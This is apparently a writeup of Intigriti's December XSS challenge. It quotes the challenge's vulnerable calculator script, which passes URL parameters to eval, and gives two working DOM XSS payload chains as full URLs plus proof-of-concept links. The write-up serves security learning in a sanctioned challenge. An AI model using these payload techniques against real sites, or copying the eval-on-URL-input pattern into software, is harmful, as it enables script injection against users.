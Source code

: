 # Intigriti's December XSS Challenge Writeup


This month’s Intigriti’s XSS challenge was interesting as a couple of hours after [Frans Rosén](https://twitter.com/fransrosen) submitted an unintended solution, and I got interested in that one more than in the original.
<!--more-->
![Unintended Solution by Frans Rosen](unintended.png "Unintended Solution")

Challenge on webarchive [https://web.archive.org/web/20201208103813/https://challenge-1220.intigriti.io/](https://web.archive.org/web/20201208103813/https://challenge-1220.intigriti.io/).
Vulnerable script on webarchive [https://web.archive.org/web/20201210000939/https://challenge-1220.intigriti.io/script.js](https://web.archive.org/web/20201210000939/https://challenge-1220.intigriti.io/script.js).


### Solution 1

Parsing query parameters using custom function (e.g. `getQueryVariable`, line 3) allows to specify those in URL hash on line 11 (below) `window.location.href.substr(...)`, as `String.prototype.indexOf()` is looking for the first occurance of `?` (question mark):

```javascript
function init(){
  try{
    document.getElementById("result").value = calc(getQueryVariable("num1"), getQueryVariable("num2"), getQueryVariable("operator"));
  }
  catch(ex){
    console.log(ex);
  }
}
...
function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

Two of the sources (`num1` and `num2`) are passed to `setNumber` function (line 23) when clicking on a number, which itself then passes it to `parseInt` (lines 101, 104), also there is no protection against iframing it, so, having such URL [https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=eval](https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=eval) in an iframe, we can execute `parseInt=eval` as `operation` in the context of the vulnerable webpage, because `=` is whitelisted as an operator:
```javascript
const operators = ["+", "-", "/", "*", "="];
function calc(num1 = "", num2 = "", operator = ""){
  operator = decodeURIComponent(operator);
  var operation = `${num1}${operator}${num2}`;
  document.getElementById("operation").value = operation;
  if(operators.indexOf(operator) == -1){
    throw "Invalid operator.";
  }
  if(!(/^[0-9a-zA-Z-]+$/.test(num1)) || !(/^[0-9a-zA-Z]+$/.test(num2))){
    throw "No special characters."
  }
  if(operation.length > 20){
    throw "Operation too long.";
  }
  return eval(operation);
}
...
window.onload = function(){
 init();
 var numberBtns = document.body.getElementsByClassName("number");
 for(var i = 0; i < numberBtns.length; i++){
   numberBtns[i].onclick = function(e){
     setNumber(e.target.innerText)
   };
 };
 var operatorBtns = document.body.getElementsByClassName("operator");
 for(var i = 0; i < operatorBtns.length; i++){
   operatorBtns[i].onclick = function(e){
     setOperator(e.target.innerText)
   };
 };

  var clearBtn = document.body.getElementsByClassName("clear")[0];
  clearBtn.onclick = function(){
    clear();
  }
}
...
function setNumber(number){
  var url = new URL(window.location);
  var num1 = getQueryVariable('num1') || 0;
  var num2 = getQueryVariable('num2') || 0;
  var operator = getQueryVariable('operator');
  if(operator == undefined || operator == ""){
    url.searchParams.set('num1', parseInt(num1 + number));
  }
  else if(operator != undefined){
    url.searchParams.set('num2', parseInt(num2 + number));
  }
  window.history.pushState({}, '', url);
  init();
}
```

Now we can redirect the iframe to a new hash [https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=alert(document.domain)//](https://challenge-1220.intigriti.io/#?num1=parseInt&operator=%3d&num2=alert(document.domain)//) and as, only, the URL hash is changed, no request is going to be sent to the server and if the user hits any number, the following script will be executed `alert(document.domain)//<number>`.

A similar technique can be leveraged when having `calc=eval` executed then redirecting to a new hash [https://challenge-1220.intigriti.io/#?num1=alert(document.domain)&operator=%3d&num2=eval](https://challenge-1220.intigriti.io/#?num1=alert(document.domain)&operator=%3d&num2=eval), where the user has to hit an operator

POCs:
- for numbers - [https://jsfiddle.net/td6yzm0w/1/](https://jsfiddle.net/td6yzm0w/1/)
- for operators - [https://jsfiddle.net/td6yzm0w/](https://jsfiddle.net/td6yzm0w/)

![Intigriti tip tweet](response.png "Intigriti tip tweet")

### Solution 2

Now the intended one, that leads to DOM XSS (Cross site swagging) with no user interaction.
![Intigriti tip tweet](tip.png "Intigriti tip tweet")


Very right, because `getQueryVariable` iterates in a loop and takes the value of the last occurrence of the requested parameter (lines 5-10) 
```javascript
function getQueryVariable(variable) {
    window.searchQueryString = window.location.href.substr(window.location.href.indexOf("?") + 1, window.location.href.length);
    var vars = searchQueryString.split('&');
    var value;
    for (var i = 0; i < vars.length; i++) {
        var pair = vars[i].split('=');
        if (decodeURIComponent(pair[0]) == variable) {
            value = decodeURIComponent(pair[1]);
        }
    }
    return value;
}
```

Chain:
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&) - execute `onhashchange=init`
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval) - changing hash, triggering `onhashchange` which is `init` now and executing `calc=eval`
- [https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval&num1=alert('achievement%20unlocked:%20unlimited%20swag%20vouchers%20'%2bdocument.domain)](https://challenge-1220.intigriti.io/?num1=onhashchange&operator=%3d&num2=init&#d&num1=calc&num2=eval&num1=alert('achievement%20unlocked:%20unlimited%20swag%20vouchers%20'%2bdocument.domain)) - triggering `onhashchange` and passing `alert('achievement unlocked: unlimited swag vouchers '+document.domain)` to `eval`

Now you can claim your unlimited swag voucher with 0 click:
![Pop an alert](alert.png "Pop an alert")


POC: [https://jsfiddle.net/vsz08bpo/](https://jsfiddle.net/vsz08bpo/) 
